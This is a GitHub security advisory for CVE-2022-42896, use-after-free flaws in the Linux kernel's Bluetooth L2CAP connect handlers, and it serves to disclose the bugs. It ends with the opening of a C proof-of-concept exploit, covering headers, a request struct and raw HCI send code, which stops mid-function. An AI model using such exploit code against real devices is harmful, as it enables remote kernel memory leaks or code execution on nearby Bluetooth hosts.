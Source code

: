```yaml
---
title: 'Linux Kernel: UAF in Bluetooth L2CAP Handshake'
severity: Moderate
ghsa_id: GHSA-pf87-6c9q-jvm4
cve_id: CVE-2022-42896
weaknesses: []
products:
- ecosystem: Linux
  package_name: Kernel
  affected_versions: '> v3.16.0'
  patched_versions: ''
cvss: null
credits:
- github_user_id: koczkatamas
  name: Tamás Koczka
  avatar: https://avatars.githubusercontent.com/u/2608082?s=40&v=4
- github_user_id: TheOfficialFloW
  name: Andy Nguyen
  avatar: https://avatars.githubusercontent.com/u/14246466?s=40&v=4
---
```


### Summary
There are use-after-free vulnerabilities in the Linux kernel's `net/bluetooth/l2cap_core.c`'s `l2cap_connect` and `l2cap_le_connect_req` functions which may allow code execution and leaking kernel memory (respectively) remotely via Bluetooth.

The `l2cap_le_connect_req` bug was introduced in [commit 27e2d4c](https://github.com/torvalds/linux/commit/27e2d4c8d28be1d1b4ecfbffab572d7dbd35254d) (version: 3.12.0, date: 2013-Dec-05), the SMP channel is available since [commit 70db83c](https://github.com/torvalds/linux/commit/70db83c4bcdc1447bbcb318389561c90d7056b18) (version: 3.16.0, date: 2014-Aug-14).

### Severity
Moderate

### Proof of Concept
**UAF read in l2cap_le_connect_req**

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

typedef struct l2cap_le_conn_req {
        uint16_t     psm;
        uint16_t     scid;
        uint16_t     mtu;
        uint16_t     mps;
        uint16_t     credits;
} __attribute__ ((packed)) l2cap_le_conn_req;

int hci_send_acl_data(int hci_socket, uint16_t hci_handle, void *data, uint16_t data_length) {
  uint8_t type = HCI_ACLDATA_PKT;
  uint16_t BCflag = 0x0000;
  uint16_t PBflag = 0x0002;
  uint16_t flags = ((BCflag << 2) | PBflag) & 0x000F;

  hci_acl_hdr hdr;
```
